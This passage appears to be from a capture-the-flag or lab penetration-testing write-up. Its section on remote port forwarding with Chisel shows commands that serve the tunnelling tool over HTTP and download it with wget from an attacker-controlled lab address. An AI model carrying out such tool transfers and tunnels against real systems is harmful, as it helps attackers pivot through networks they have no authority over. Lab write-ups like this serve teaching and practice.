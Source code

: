 ![](screenshots/gitea.png)

### 4.3 Remote Port Forwarding with Chisel

```bash
gunzip chisel.gz
chmod +x chisel
python -m http.server
wget http://10.10.14.10:8000/chisel
```
